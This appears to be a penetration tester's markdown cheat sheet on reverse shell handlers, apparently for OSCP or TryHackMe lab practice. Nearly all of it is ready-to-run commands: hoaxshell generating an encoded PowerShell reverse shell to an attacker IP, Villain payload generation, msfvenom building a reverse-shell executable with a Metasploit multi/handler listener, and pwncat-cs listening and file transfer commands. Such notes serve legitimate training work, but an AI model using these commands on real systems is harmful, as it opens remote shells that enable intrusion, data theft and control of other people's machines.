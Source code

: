 Use hoaxshell to get proper reverse shell that returns full cmd output

```bash
┌──(kali㉿kali)-[/opt/sectools/c2/hoaxshell]
└─$ pipenv run python3 hoaxshell.py -s 10.11.19.145
...
[Info] Generating reverse shell payload...
powershell -e JABzAD0AJwA...

PS C:\Users\thm-unpriv > Enable-PSRemoting
System.Management.Automation.CmdletInvocationException: Access is denied. To run this cmdlet, start Windows PowerShell with the "Run as administrator"
...
```

### Multi Reverse Shell Handler

#### Villian

> Writeup - [[Villian]]

Multi session Revshell Handler based on **HoaxShell**

Supports both windows and linux

```bash
pipenv run python3 Villain.py
generate payload=windows/netcat/powershell_reverse_tcp lhost=tun0 encode
sessions
shell 4ae3fc-fddd10-2caef2
```

#### Metasploit Multi Handler

Multi handler is allowed in OSCP

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=eth0 LPORT=1111 -f exe -o rev.exe
msfconsole -L -q -x "use multi/handler; set payload windows/x64/shell_reverse_tcp; set LHOST eth0; set LPORT 1111; set exitonsession false; exploit -jz"

# Kill all jobs
jobs -K
```

#### Pwncat-CS

Old multi session revshell handler, it's not working for windows reverse shell

```bash
pwncat-cs

# Start Listening
listen 1111 -m linux

# General cmds
sessions
sessions <SESSION_ID>

# Interactive shell
## Use [CTRL + d] to enter or exit interactive shell

# Upload or download file
upload source [destination]
download source [destination]
```
